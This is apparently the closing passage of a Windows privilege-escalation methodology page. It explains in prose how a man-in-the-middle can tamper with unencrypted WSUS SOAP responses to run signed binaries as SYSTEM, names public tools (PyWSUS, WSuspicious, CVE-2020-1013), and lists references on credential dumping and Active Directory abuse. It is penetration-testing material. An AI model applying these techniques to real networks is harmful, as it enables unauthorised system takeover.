All metadata exchanges between the client and the server is done using the Simple Object Access Protocol (SOAP). By exploiting the lack of integrity of the SOAP calls transmitted over an unencrypted HTTP channel, an attacker performing a MITM attack can tamper responses to the SOAP requests "SyncUpdates (software)" and "GetExtendedUpdateInfo".

Luckily, the "CommandLineInstallation" handler specifies additional parameters to pass the binary during the update installation. No integrity checks are made on these parameters, so they can be tampered easily. As a result, Microsoft-signed binaries such as PsExec64 or bginfo can be used in a fake update to achieve command execution on the client side with "NT AUTHORITY\SYSTEM" privileges

We can exploit that by either using:

- [wsuspect-proxy](https://github.com/ctxis/wsuspect-proxy) which can inject 'fake' updates into non-SSL WSUS traffic.
- [PyWSUS](https://github.com/GoSecure/pywsus) which is standalone implementation of a legitimate WSUS server which sends malicious responses to clients.

For more information refer the this blogpost from [GoSecure](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)

##### CVE-2020-1013

This vulnerability allows an attacker to abuse Windows system services to conduct an HTTP to SMB relay and escalate privileges

[WSuspicious](https://github.com/GoSecure/wsuspicious) is a C# program that takes the place of the user local proxy and forces the computer to look for updates while intercepting the WSUS traffic to inject a malicious payload.

#### References

- For the privileges part, thanks to @[decoder-it](https://github.com/decoder-it), his talk "[HIP19: whoami priv - show me your privileges and I will lead you to SYSTEM"](https://www.youtube.com/watch?v=ur2HPyuQlEU)" is a must see
- For the "CLI Enumeration" part, thanks to FuzzySecurity <https://www.fuzzysecurity.com/tutorials/16.html>
- For the "AccessChk" Deep Dive, thanks to Mark Russinovich & Bryce Cogswell
 <http://mirrors.arcadecontrols.com/www.sysinternals.com/Blog/index.html>
- For the "LM & More" thanks to Péter Gombos <https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4>
- For the "Domain Trusts" part, thank to Girit Haran <https://giritharan.com/active-directory-domains-and-trust/>
- For the "AppInit DLLs" part, thanks to <https://pentestlab.blog/2020/01/07/persistence-appinit-dlls/>
- For the "Scheduled Tasks" part, thanks to <https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/>
- For the "LAPS Evasion" part, thanks to <https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/>
- For the "SSP Attack" part, thanks to stealthbits.com <https://stealthbits.com/blog/stealing-credentials-with-a-security-support-provider-ssp/>
- For the "Ntds.dit file" part, thanks to stealthbits.com <https://attack.stealthbits.com/ntds-dit-security-active-directory>
- For the "Group Managed Service Accounts" part, thanks to Sean Metcalf <https://adsecurity.org/?p=4367>
- For the "AdminSDHolder" part, thanks to harmj0y <http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/>
- For the "Credential Manager" part, thanks to Raj Chandel <https://www.hackingarticles.in/credential-dumping-windows-credential-manager/>
- For the "DLL Proxying" part, thanks to itm4n <https://itm4n.github.io/dll-proxying/>
- For the "Task Scheduler" part, thanks to itm4n <https://itm4n.github.io/localservice-privileges/>
- For the "Windows Subsystem for Linux" part, thanks to <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl>
- For the "DACLs & ACEs" part, thanks to ired.team <https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces>
- For the "COM/DCOM" part, thanks to CyberReason <https://www.cybereason.com/blog/dcom-lateral-movement-techniques>

#### Source Todo

http://mysoftwarelab.blogspot.com/2010/12/localservice-vs-networkservice-vs.html
http://carnal0wnage.attackresearch.com/2007/08/more-of-using-rpcclient-to-find.html
https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast
https://www.jaiminton.com/cheatsheet/DFIR/#pagefile-information

- DPAPI: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi
- AppCmd.exe: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe
- SSH keys in registry: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#scclient-sccm
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#windows-vault
